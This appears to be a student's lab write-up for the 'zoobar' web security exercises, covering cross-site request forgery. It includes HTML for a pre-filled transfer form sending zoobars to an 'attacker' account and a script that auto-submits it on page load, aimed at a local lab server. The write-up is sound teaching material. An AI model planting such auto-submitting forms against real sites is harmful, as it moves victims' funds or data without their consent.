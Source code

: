 ![](https://i.imgur.com/HCStBeO.png)


![](https://i.imgur.com/P4OcZFN.png)


## Part B: Cross-site request forgery

### Exercise 6

In this part we will create an automated form to auto send 10 zoobars from the user on visit to a malicious HTML page. 

To do so, we first extract and experiment using the form on localhost as such:
![](https://i.imgur.com/m1gE835.png)

While account `sheek` is logged in, we click send, resulting in the following

On account `sheek`, redirected to:
![](https://i.imgur.com/ELUaoSd.png)

On account `attacker`:
(The extra 2 zoobars was from previous testing)
![](https://i.imgur.com/Vwe7UfY.png)



Thus, the next step is to simply autofill the form submission, by filling up the correct details accordingly. Below shows the form with the fields automcompleted:
```htmlmixed=
<form method="POST" name="transferform" action="http://localhost:8080/zoobar/index.cgi/transfer">
    <p>Send <input name="zoobars" type="text" value="10" size=5> zoobars</p>
    <p>to <input name=recipient type=text value="attacker" size=10></p>
    <input type="submit" name="submission" value="Send">
</form>
```


### Exercise 7

On exercise 7, we will now automate the `send` process of the form. To do so, we will utilise a simple javascript code that will run on the user's browser upon visiting the link. To do so, we simply have to add the following script snippet into the html page. This will cause the from to submit upon page load.

```htmlembedded=
<form method="POST" name="transferform" action="http://localhost:8080/zoobar/index.cgi/transfer">
    <p>Send <input name="zoobars" type="text" value="10" size=5> zoobars</p>
    <p>to <input name=recipient type=text value="attacker" size=10></p>
    <input type="submit" name="submission" value="Send">
</form>

<script>
    window.onload = function(){
        document.forms[0].submit()
    }

</script>
```
